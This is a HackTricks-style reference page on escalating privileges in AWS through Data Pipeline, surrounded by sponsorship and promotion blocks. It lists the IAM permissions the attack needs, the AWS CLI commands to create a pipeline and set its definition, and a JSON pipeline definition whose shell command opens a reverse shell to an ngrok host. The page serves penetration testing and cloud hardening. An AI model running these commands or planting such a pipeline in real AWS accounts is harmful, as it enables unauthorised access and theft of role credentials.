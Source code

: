 # AWS - Datapipeline Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

An attacker with the **`iam:PassRole`, `datapipeline:CreatePipeline`,  `datapipeline:PutPipelineDefinition,`**and **`datapipeline:ActivatePipeline` ** permissions would be able to escalate privileges by **creating a pipeline and updating it to run an arbitrary AWS CLI command or create other resources**, either once or on an interval with the permissions of the role that was passed in.

```bash
aws datapipeline create-pipeline --name my_pipeline \
    --unique-id unique_string
```

Which will create an empty pipeline. The attacker then needs to **update the definition of the pipeline** to tell it what to do, with a command like this:

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.

Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).
{% endhint %}

```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
    --pipeline-definition file:///path/to/my/pipeline/definition.json
```

Where the **pipeline definition file contains a directive to run a command** or create resources using the AWS API that could help the attacker gain additional privileges.

**Potential Impact:** Drirect privesc to the ec2 service role specified.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
